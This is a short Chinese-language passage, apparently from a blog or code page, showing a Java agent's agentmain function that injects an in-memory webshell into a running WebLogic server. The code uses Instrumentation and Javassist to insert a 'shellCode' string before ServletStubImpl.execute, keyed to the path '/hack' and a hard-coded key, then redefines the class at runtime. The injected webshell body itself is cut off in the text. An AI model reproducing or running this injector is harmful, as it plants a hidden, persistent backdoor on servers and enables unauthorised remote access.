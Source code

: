 关键是java agent，入口是agentmain函数，跟普通的main函数一样

```java
public static void agentmain(String args, Instrumentation inst){
        Class<?>[] cLasses = inst.getAllLoadedClasses();
        ClassPool cPool = ClassPool.getDefault();
        byte[] data = new byte[0];
        Map<String, Map<String, Object>> targetClasses = new HashMap<String, Map<String, Object>>();
        Map<String, Object> targetClassWeblogicMap = new HashMap<String, Object>();
        targetClassWeblogicMap.put("methodName", "execute");
        List<String> paramWeblogicClsStrList = new ArrayList<String>();
        paramWeblogicClsStrList.add("javax.servlet.ServletRequest");
        paramWeblogicClsStrList.add("javax.servlet.ServletResponse");
        targetClassWeblogicMap.put("paramList", paramWeblogicClsStrList);
        targetClasses.put("weblogic.servlet.internal.ServletStubImpl", targetClassWeblogicMap);

        String shellCode = "javax.servlet.http.HttpServletRequest request=(javax.servlet.ServletRequest)$1;\njavax.servlet.http.HttpServletResponse response = (javax.servlet.ServletResponse)$2;\njavax.servlet.http.HttpSession session = request.getSession();\nString pathPattern=\"%s\";\nif (request.getRequestURI().matches(pathPattern))........[java code]";
        for (Class<?> cls : cLasses) {
            if (targetClasses.keySet().contains(cls.getName())) {
                String targetClassName = cls.getName();
                try {
                    String path = "/hack";//new String(base64decode(args.split("\\|")[0]));
                    String key = "e45e329feb5d925b";//new String(base64decode(args.split("\\|")[1]));
                    shellCode = String.format(shellCode, new Object[] { path, key });
                    if (targetClassName.equals("jakarta.servlet.http.HttpServlet"))
                        shellCode = shellCode.replace("javax.servlet", "jakarta.servlet");
                    ClassClassPath classPath = new ClassClassPath(cls);
                    cPool.insertClassPath((ClassPath)classPath);
                    cPool.importPackage("java.lang.reflect.Method");
                    cPool.importPackage("javax.crypto.Cipher");
                    List<CtClass> paramClsList = new ArrayList<CtClass>();
                    for (String clsName : (List<String>)((Map)targetClasses.get(targetClassName)).get("paramList"))
                        paramClsList.add(cPool.get(clsName));
                    CtClass cClass = cPool.get(targetClassName);
                    String methodName = ((Map)targetClasses.get(targetClassName)).get("methodName").toString();
                    CtMethod cMethod = cClass.getDeclaredMethod(methodName, paramClsList.<CtClass>toArray(new CtClass[paramClsList.size()]));
                    cMethod.insertBefore(shellCode);
                    cClass.detach();
                    data = cClass.toBytecode();
                    inst.redefineClasses(new ClassDefinition[] { new ClassDefinition(cls, data) });
                } catch (Exception e) {
                    e.printStackTrace();
                } catch (Error error) {
                    error.printStackTrace();
                }
            }
        }
```
